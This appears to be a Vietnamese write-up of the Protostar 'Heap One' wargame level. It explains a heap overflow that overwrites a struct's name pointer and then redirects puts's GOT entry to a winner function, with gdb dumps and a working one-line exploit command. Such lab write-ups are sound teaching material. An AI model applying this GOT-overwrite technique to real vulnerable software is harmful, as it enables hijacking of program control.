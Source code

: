 # HEAP ONE

## About

This level takes a look at code flow hijacking in data overwrite cases.

This level is at /opt/protostar/bin/heap1

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

## Solutions

`HEAP ONE` cho chúng ta thấy ngoài việc thay đổi luồng thực thi, trong một số trường hợp đặc biệt việc khai báo cấu trúc các biến cho ta khả năng ghi đè dẫn tới chiếm được quyền điều khiển luồng thực thi. Thử thách hoàn thành khi chúng ta in được dòng chữ `"and we have a winner @ "`.

Trong chương trình này, chúng ta thấy rằng hai `struct internet` `i1`, `i2` đã được cấp phát. Mỗi struct chứa một con trỏ `name` được cấp phát riêng. Điều này có nghĩa là `struct internet` được cấp phát trên heap sẽ chứa một con trỏ đến một phần khác của bộ nhớ trên heap có chứa bộ đệm char.

Bộ nhớ Heap được cấp phát liên tục nên Heap được bố cục như sau:

```
[i1 structure][i1's name buffer][i2 structure][i2's name buffer]
```

Do buffer overflow từ cuộc gọi `strcpy` đầu tiên, chúng ta có thể ghi đè con trỏ `name` của i2 bằng một vị trí mà chúng ta muốn cuộc gọi `strcpy` thứ hai ghi vào. Với điều này, chúng ta có thể ghi dữ liệu tùy ý vào bất kỳ vị trí nào trong bộ nhớ mà chúng tôi muốn.

```
$./heap1 AAAA BBBB

(gdb) x/50x  0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x42424242      0x00000000
...
```

Vấn đề bây giờ là ghi vào đâu? Chắc các bạn vẫn còn nhớ `FORMAT FOUR`, ý tưởng của tôi ở đây là ghi đè địa chỉ `GOT` của hàm `puts` bằng địa chỉ của hàm `winner` để thay vì gọi hàm `puts` in `"and that's a wrap folks!"` chúng ta sẽ nhảy đến hàm `winner` và thoát mà không có `Segmentation fault`.

Địa chỉ `winner`.

```
(gdb) print &winner
$1 = (void (*)(void)) 0x8048494 <winner>
```

Địa chỉ `GOT` của `puts`.

```
...
0x08048561 <main+168>:  call   0x80483cc <puts@plt>
0x08048566 <main+173>:  leave
0x08048567 <main+174>:  ret
End of assembler dump.
(gdb) x/2i 0x80483cc
0x80483cc <puts@plt>:   jmp    DWORD PTR ds:0x8049774
0x80483d2 <puts@plt+6>: push   0x30
(gdb)
```

Tiến hành khai thác.

```
root@protostar:/opt/protostar/bin# ./heap1 $(python -c "print 'A' * 20 + '\x74\x97\x04\x08'") $(python -
c "print '\x94\x84\x04\x08'")
and we have a winner @ 1649082615
```

## Documents

<https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf>

<https://sourceware.org/glibc/wiki/MallocInternals>



